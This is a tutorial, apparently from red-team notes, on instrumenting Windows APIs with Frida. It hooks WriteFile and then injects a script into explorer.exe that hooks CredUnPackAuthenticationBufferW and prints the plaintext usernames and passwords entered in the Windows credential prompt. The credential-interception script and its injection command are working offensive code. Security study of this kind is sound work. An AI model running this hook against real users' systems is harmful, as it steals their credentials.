




# Instrumenting Windows APIs with Frida

## Spawning New Process with Frida

We can ask frida to spawn a new process for us to instrument:

```text
frida c:\windows\system32\notepad.exe
```


## Attaching Frida to Existing Process

We can ask frida to attach to an existing process:

```text
frida -p 10964
```


## Hooking a Function

The below code in `hooking.js` will find address of the Windows API `WriteFile` \(lives in kernel32.dll/kernelbase.dll\) and hexdump the contents of the 1st argument passed to it:


```javascript
var writeFile = Module.getExportByName(null, "WriteFile");

Interceptor.attach(writeFile, {
    onEnter: function(args)
    {
        console.log("Buffer dump:\n" + hexdump(args[1]));
        // console.log("\nBuffer via Cstring:\n" + Memory.readCString(args[1]));
        // console.log("\nBuffer via utf8String:\n" + Memory.readUtf8String(args[1]));
    }
});
```


Let's spawn a new `notepad.exe` through Frida and supply it with the above `hooking.js` code, so that we can start instrumenting the `WriteFile` API and inspect the contents of the buffer that is being written to disk:

```text
frida C:\windows\system32\notepad.exe -l .\hooking.js
```



Notice that we can update the `hooking.js` code and the instrumentation happens instantly - it does not require us to re-spawn the notepad or re-attaching Frida to it. In the above GIF, this can be seen at the end when we request the console to spit out the `process.id` \(the frida is attached to\) and the notepad process ID gets printed out to the screen instantly.

## Frida-Trace

If we want to see if certain API calls are invoked by some specific process, say `WriteFile`, we can use `frida-trace` tool like so:

```text
frida-trace -i "WriteFile" C:\windows\system32\notepad.exe
```



## Real Life Example - Intercepting Credentials

Below shows how we can combine the above knowledge for something a bit more interesting.

Can we intercept the plaintext credentials from the credentials prompt the user gets when they want to execute a program as another user?



The answer is of course yes, so let's see how this could be done using Frida tools.

Let's use `frida-trace` to see if explorer.exe ever calls any functions named `*Cred*` when we invoke the credentials popup:

```text
frida-trace -i "*Cred*" -p (ps explorer).id
```

Below, we can see that indeed, there is a call to `CredUIPromptForWindowsCredentialsW` made when the prompt is first invoked:


Entering some fake credentials shows the following interesting `Cred*` API calls are made \(in red\):


...and the [`CredUnPackAuthenticationBufferW`](https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-credunpackauthenticationbufferw) \(in lime\) is of special interest, because per MSDN:

> The **CredUnPackAuthenticationBuffer** function converts an authentication buffer returned by a call to the [CredUIPromptForWindowsCredentials](https://docs.microsoft.com/en-us/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa) function into a string user name and password.

We can now instrument `CredUnPackAuthenticationBufferW` in a frida javascript like so:


```javascript
var username;
var password;
var CredUnPackAuthenticationBufferW = Module.findExportByName("Credui.dll", "CredUnPackAuthenticationBufferW")

Interceptor.attach(CredUnPackAuthenticationBufferW, {
    onEnter: function (args) 
    {
        // Credentials here are still encrypted
        /*
            CREDUIAPI BOOL CredUnPackAuthenticationBufferW(
                0 DWORD  dwFlags,
                1 PVOID  pAuthBuffer,
                2 DWORD  cbAuthBuffer,
                3 LPWSTR pszUserName,
                4 DWORD  *pcchMaxUserName,
                5 LPWSTR pszDomainName,
                6 DWORD  *pcchMaxDomainName,
                7 LPWSTR pszPassword,
                8 DWORD  *pcchMaxPassword
            );        
        */
        username = args[3];
        password = args[7];
    },
    onLeave: function (result)
    {
        // Credentials are now decrypted
        var user = username.readUtf16String()
        var pass = password.readUtf16String()

        if (user && pass)
        {
            console.log("\n+ Intercepted Credentials\n" + user + ":" + pass)
        }
    }
});
```


We can now hook the explorer.exe by providing frida with our instrumentation script like so:

```text
frida -p (ps explorer).id -l C:\labs\frida\hello-world\credentials.js
```


With `CredUnPackAuthenticationBufferW`  instrumented, entering credentials in the prompt launched by explorer.exe, gives us the expected result - the credentials are seen in plaintext:



## Resources



